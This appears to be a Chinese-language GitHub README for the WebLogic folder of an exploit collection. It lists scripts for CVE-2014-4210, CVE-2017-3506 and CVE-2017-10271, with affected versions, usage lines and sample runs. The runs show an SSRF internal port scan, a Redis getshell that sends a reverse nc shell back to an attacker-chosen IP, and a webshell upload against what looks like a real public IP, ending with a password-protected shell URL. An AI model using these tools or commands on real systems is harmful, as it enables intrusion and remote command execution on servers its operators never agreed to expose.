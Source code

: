 # About Oracle Weblogic
> WebLogic是美国Oracle公司出品的一个application server，确切的说是一个基于JAVAEE架构的中间件，WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

# Vulnerability list
[**cve-2014-4210_ssrf_scan.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_scan.py) Weblogic ssrf扫描内网端口利用脚本 [[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2014-4210_ssrf_redis_shell.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2014-4210_ssrf_redis_shell.py) Weblogic ssrf漏洞内网redis未授权getshell脚本[[使用]](https://freeerror.org/d/483-ssrf)  
[**cve-2017-3506_poc.py**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_poc.py) Weblogic wls-wsat远程命令执行漏洞检测脚本[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-3506_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic/cve-2017-3506_webshell.jar) Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell[[使用]](https://freeerror.org/d/468-cve-2017-3506-weblogic-wls-wsat)  
[**cve-2017-10271_poc.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic) Weblogic wls-wsat XMLDecoder反序列化漏洞检测脚本[[使用]](https://freeerror.org/d/460)
[**cve-2017-10271_webshell.jar**](https://github.com/zhzyker/exphub/blob/master/weblogic) Weblogic wls-wsat XMLDecoder反序列化漏洞利用脚本，上传Webshell[[使用]](https://freeerror.org/d/460)

# Readme
部分脚本文件使用说明，详细使用分析请参考[vulnerability-list](https://github.com/zhzyker/exphub/tree/master/weblogic#vulnerability-list)中的[使用]
- VER: 漏洞影响版本，一般情况下不在影响范围的版本没有相关漏洞
- USE: 脚本文件使用说明，大部分写在了脚本里，执行即可见
- EXP: 脚本利用示例，以及执行效果
- DES: 部分特殊脚本文件的特殊描述

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py 
> +----------------------------------------------------------------------+
> + USE: python <filename> <target_ip:port> <scan_address> <process>     +
> + EXP: python cve-2014-4210_ssrf_scan.py 1.1.1.1:7001 192.168.1.0 20   +
> + VER: 10.0.2,10.3.6                                                   +
> +----------------------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_scan.py  59.110.214.109:7001 192.168.112.0 30
> 192.168.112
> [*]+------------------------+
> [*]+  Scanning ip and port  +
> [*]+------------------------+
> [+] 192.168.112.1:22
> [+] 192.168.112.2:80
> [+] 192.168.112.3:7001
> [+] 192.168.112.1:7001
> [+] 192.168.112.2:6379
> [*]+------------------------+
> [*]+     Scan completed     +
> [*]+------------------------+
> ```  

## CVE-2014-4210_ssrf_scan.py Weblogic SSRF 漏洞扫描内网端口
> VER:
> ```
> Weblogic 10.0.2
> Weblogic 10.3.6
> ```
> USE:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ python cve-2014-4210_ssrf_redis_shell.py 
> +---------------------------------------------------------------------------------------------------+
> + USE: python <filename> <weblogic_ip> <weblogic_port> <inside_ip> <inside_port> <nc_ip> <nc_port>  +
> + EXP: python filename.py 1.1.1.1 7001 192.168.1.1 6379 2.2.2.2 5555                                +
> + VER: 10.0.2,10.3.6                                                                                +
> +---------------------------------------------------------------------------------------------------+
> ```
> DES:
> ```
> <weblogic_ip> weblogic的IP地址
> <weblogic_port> weblogic的端口，一般情况下为7001
> <inside_ip> 内网redis主机的IP地址，该地址通过 6.1 的scan脚本得出
> <inside_port> 内网redis的端口，默认6379
> <nc_ip> 反弹nc shell的IP
> <nc_port> 反弹nc shell的端口
> ```
> EXP:
> ![Image](https://github.com/zhzyker/exphub/blob/master/weblogic/image/cve-2014-4210_ssrf_redis_shell.png)
  
## CVE-2017-3506_poc.py Weblogic wls-wsat远程命令执行漏洞检测脚本
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py
> +--------------------------------------------------------+
> + USE: python cve-2017-3506_poc.py <url:port>            +
> + VER: 10.3.6.0, 12.1.3.0, 12.2.1.0, 12.2.1.1, 12.2.1.2  +
> + EXP: python cve-2017-3506_poc.py 59.110.214.109:7001   +
> +--------------------------------------------------------+
> ```
> EXP:
> ```
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7001
> [+] CVE-2017-3506 Vulnerability
> zhzy@debian:$ python cve-2017-3506_poc.py 59.110.214.109:7000
> [-] No Vulnerability
> ```

## cve-2017-3506_webshell.jar Weblogic wls-wsat远程命令执行漏洞利用，上传Webshell
> VER:
> ```
> 10.3.6.0
> 12.1.3.0
> 12.2.1.0
> 12.2.1.1
> 12.2.1.2 
> ```
> USE:
> ```
> zhzy@debian:$ java18  -jar cve-2017-10271_webshell.jar 
> [*]              Oracle : WebLogic wls-wsat RCE Exp
> [*]              CVE ID : CVE-2017-3506 & CVE-2017-10271
> [*]  Vulnerability info : https://secfree.com/article-635.html
> [*]              Author : Bearcat@secfree.com
> [*]  Vulnerability page ：wls-wsat/CoordinatorPortType & wls-wsat/CoordinatorPortType11 
> [*]               Usage ：java -jar WebLogic_Wls-Wsat_RCE_Exp.jar http://xxx.xxx.xxx.xxx:7001 test.jsp
> [*] Vulnerability patch : http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
> ```
> EXP:
> ```
> zhzy@debian:/debian/archives-tool/web-weblogic$ java18  -jar cve-2017-10271_webshell.jar http://59.110.214.109:7007 > shell.jsp
> [*] Starting exploit...
> [*] Sending payloads...
> [*] Payloads sent...
> [*] Opening shell...
> [*] pwned! Go ahead...
> 
> [+] http://59.110.214.109:7007/bea_wls_internal/shell.jsp?password=secfree&command=whoami
> ```

